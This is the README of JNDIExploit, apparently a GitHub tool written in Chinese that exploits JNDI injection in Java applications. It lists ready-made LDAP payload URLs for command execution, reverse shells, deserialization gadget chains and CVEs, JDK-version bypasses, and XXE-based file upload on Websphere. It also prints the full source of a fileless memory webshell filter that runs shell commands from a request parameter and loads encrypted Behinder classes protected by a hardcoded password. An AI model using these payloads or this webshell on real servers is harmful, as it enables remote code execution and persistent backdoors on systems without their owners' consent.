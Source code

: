 # JNDIExploit
================

一款用于 `JNDI注入` 利用的工具，大量参考/引用了 `Rogue JNDI` 项目的代码，支持直接`植入内存shell`，并集成了常见的`bypass 高版本JDK`的方式，适用于与自动化工具配合使用。

# 使用说明
---------

使用 `java -jar JNDIExploit.jar -h` 查看参数说明，其中 `--ip` 参数为必选参数

    Usage: java -jar JNDIExploit.jar [options]
      Options:
      * -i, --ip       Local ip address
        -l, --ldapPort Ldap bind port (default: 1389)
        -p, --httpPort Http bind port (default: 8080)
        -u, --usage    Show usage (default: false)
        -h, --help     Show this help


使用 `java -jar JNDIExploit.jar -u` 查看支持的 LDAP 格式

    Supported LADP Queries
    * all words are case INSENSITIVE when send to ldap server
    
    [+] Basic Queries: ldap://127.0.0.1:1389/Basic/[PayloadType]/[Params], e.g.
        ldap://127.0.0.1:1389/Basic/Dnslog/[domain]
        ldap://127.0.0.1:1389/Basic/Command/[cmd]
        ldap://127.0.0.1:1389/Basic/Command/Base64/[base64_encoded_cmd]
        ldap://127.0.0.1:1389/Basic/ReverseShell/[ip]/[port]  ---windows NOT supported
        ldap://127.0.0.1:1389/Basic/TomcatEcho
        ldap://127.0.0.1:1389/Basic/SpringEcho
        ldap://127.0.0.1:1389/Basic/WeblogicEcho
        ldap://127.0.0.1:1389/Basic/TomcatMemshell1
        ldap://127.0.0.1:1389/Basic/TomcatMemshell2  ---need extra header [Shell: true]
        ldap://127.0.0.1:1389/Basic/JettyMemshell
        ldap://127.0.0.1:1389/Basic/WeblogicMemshell1
        ldap://127.0.0.1:1389/Basic/WeblogicMemshell2
        ldap://127.0.0.1:1389/Basic/JBossMemshell
        ldap://127.0.0.1:1389/Basic/WebsphereMemshell
        ldap://127.0.0.1:1389/Basic/SpringMemshell
    
    [+] Deserialize Queries: ldap://127.0.0.1:1389/Deserialization/[GadgetType]/[PayloadType]/[Params], e.g.
        ldap://127.0.0.1:1389/Deserialization/URLDNS/[domain]
        ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK1/Dnslog/[domain]
        ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK2/Command/Base64/[base64_encoded_cmd]
        ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils1/ReverseShell/[ip]/[port]  ---windows NOT supported
        ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils2/TomcatEcho
        ldap://127.0.0.1:1389/Deserialization/C3P0/SpringEcho
        ldap://127.0.0.1:1389/Deserialization/Jdk7u21/WeblogicEcho
        ldap://127.0.0.1:1389/Deserialization/Jre8u20/TomcatMemshell1
        ldap://127.0.0.1:1389/Deserialization/CVE_2020_2555/WeblogicMemshell1
        ldap://127.0.0.1:1389/Deserialization/CVE_2020_2883/WeblogicMemshell2    ---ALSO support other memshells
    
    [+] TomcatBypass Queries
        ldap://127.0.0.1:1389/TomcatBypass/Dnslog/[domain]
        ldap://127.0.0.1:1389/TomcatBypass/Command/[cmd]
        ldap://127.0.0.1:1389/TomcatBypass/Command/Base64/[base64_encoded_cmd]
        ldap://127.0.0.1:1389/TomcatBypass/ReverseShell/[ip]/[port]  ---windows NOT supported
        ldap://127.0.0.1:1389/TomcatBypass/TomcatEcho
        ldap://127.0.0.1:1389/TomcatBypass/SpringEcho
        ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell1
        ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell2   ---need extra header [Shell: true]
        ldap://127.0.0.1:1389/TomcatBypass/SpringMemshell
    
    [+] GroovyBypass Queries
        ldap://127.0.0.1:1389/GroovyBypass/Command/[cmd]
        ldap://127.0.0.1:1389/GroovyBypass/Command/Base64/[base64_encoded_cmd]
    
    [+] WebsphereBypass Queries
        ldap://127.0.0.1:1389/WebsphereBypass/List/file=[file or directory]
        ldap://127.0.0.1:1389/WebsphereBypass/Upload/Dnslog/[domain]
        ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/[cmd]
        ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/Base64/[base64_encoded_cmd]
        ldap://127.0.0.1:1389/WebsphereBypass/Upload/ReverseShell/[ip]/[port]  ---windows NOT supported
        ldap://127.0.0.1:1389/WebsphereBypass/Upload/WebsphereMemshell
        ldap://127.0.0.1:1389/WebsphereBypass/RCE/path=[uploaded_jar_path]   ----e.g: ../../../../../tmp/jar_cache7808167489549525095.tmp


*   目前支持的所有 `PayloadType` 为
    *   `Dnslog`: 用于产生一个`DNS`请求，与 `DNSLog`平台配合使用，对`Linux/Windows`进行了简单的适配
    *   `Command`: 用于执行命令，如果命令有特殊字符，支持对命令进行 `Base64编码`后传输
    *   `ReverseShell`: 用于 `Linux` 系统的反弹shell，方便使用
    *   `TomcatEcho`: 用于在中间件为 `Tomcat` 时命令执行结果的回显，通过添加自定义`header` `cmd: whoami` 的方式传递想要执行的命令
    *   `SpringEcho`: 用于在框架为 `SpringMVC/SpringBoot` 时命令执行结果的回显，通过添加自定义`header` `cmd: whoami` 的方式传递想要执行的命令
    *   `WeblogicEcho`: 用于在中间件为 `Weblogic` 时命令执行结果的回显，通过添加自定义`header` `cmd: whoami` 的方式传递想要执行的命令
    *   `TomcatMemshell1`: 用于植入`Tomcat内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
    *   `TomcatMemshell2`: 用于植入`Tomcat内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`, 使用时需要添加额外的`HTTP Header` `Shell: true`, **推荐**使用此方式
    *   `SpringMemshell`: 用于植入`Spring内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
    *   `WeblogicMemshell1`: 用于植入`Weblogic内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
    *   `WeblogicMemshell2`: 用于植入`Weblogic内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`，**推荐**使用此方式
    *   `JettyMemshell`: 用于植入`Jetty内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
    *   `JBossMemshell`: 用于植入`JBoss内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
    *   `WebsphereMemshell`: 用于植入`Websphere内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
*   目前支持的所有 `GadgetType` 为
    *   `URLDNS`
    *   `CommonsBeanutils1`
    *   `CommonsBeanutils2`
    *   `CommonsCollectionsK1`
    *   `CommonsCollectionsK2`
    *   `C3P0`
    *   `Jdk7u21`
    *   `Jre8u20`
    *   `CVE_2020_2551`
    *   `CVE_2020_2883`
*   `WebsphereBypass` 中的 3 个动作：
    *   `list`：基于`XXE`查看目标服务器上的目录或文件内容
    *   `upload`：基于`XXE`的`jar协议`将恶意`jar包`上传至目标服务器的临时目录
    *   `rce`：加载已上传至目标服务器临时目录的`jar包`，从而达到远程代码执行的效果（这一步本地未复现成功，抛`java.lang.IllegalStateException: For application client runtime, the client factory execute on a managed server thread is not allowed.`异常，有复现成功的小伙伴麻烦指导下）

# `内存shell`说明
----------------

*   采用动态添加 `Filter/Controller`的方式，并将添加的`Filter`移动至`FilterChain`的第一位
*   `内存shell` 的兼容性测试结果请参考 [memshell](https://github.com/feihong-cs/memShell) 项目
*   `Basic cmd shell` 的访问方式为 `/anything?type=basic&pass=[cmd]`
*   `Behinder shell` 的访问方式需要修改`冰蝎`客户端（请参考 [冰蝎改造之适配基于tomcat Filter的无文件webshell](https://mp.weixin.qq.com/s/n1wrjep4FVtBkOxLouAYfQ) 的方式二自行修改），并在访问时需要添加 `X-Options-Ai` 头部，密码为`rebeyond`

植入的 Filter 代码如下：

    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            System.out.println("[+] Dynamic Filter says hello");
            String k;
            Cipher cipher;
            if (servletRequest.getParameter("type") != null && servletRequest.getParameter("type").equals("basic")) {
                k = servletRequest.getParameter("pass");
                if (k != null && !k.isEmpty()) {
                    cipher = null;
                    String[] cmds;
                    if (File.separator.equals("/")) {
                        cmds = new String[]{"/bin/sh", "-c", k};
                    } else {
                        cmds = new String[]{"cmd", "/C", k};
                    }
    
                    String result = (new Scanner(Runtime.getRuntime().exec(cmds).getInputStream())).useDelimiter("\\A").next();
                    servletResponse.getWriter().println(result);
                }
            } else if (((HttpServletRequest)servletRequest).getHeader("X-Options-Ai") != null) {
                try {
                    if (((HttpServletRequest)servletRequest).getMethod().equals("POST")) {
                        k = "e45e329feb5d925b";
                        ((HttpServletRequest)servletRequest).getSession().setAttribute("u", k);
                        cipher = Cipher.getInstance("AES");
                        cipher.init(2, new SecretKeySpec((((HttpServletRequest)servletRequest).getSession().getAttribute("u") + "").getBytes(), "AES"));
                        byte[] evilClassBytes = cipher.doFinal((new BASE64Decoder()).decodeBuffer(servletRequest.getReader().readLine()));
                        Class evilClass = (Class)this.myClassLoaderClazz.getDeclaredMethod("defineClass", byte[].class, ClassLoader.class).invoke((Object)null, evilClassBytes, Thread.currentThread().getContextClassLoader());
                        Object evilObject = evilClass.newInstance();
                        Method targetMethod = evilClass.getDeclaredMethod("equals", ServletRequest.class, ServletResponse.class);
                        targetMethod.invoke(evilObject, servletRequest, servletResponse);
                    }
                } catch (Exception var10) {
                    var10.printStackTrace();
                }
            } else {
                filterChain.doFilter(servletRequest, servletResponse);
            }
    
        }


[](#)参考
-------

*   [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi)
*   [https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
*   [https://github.com/welk1n/JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass)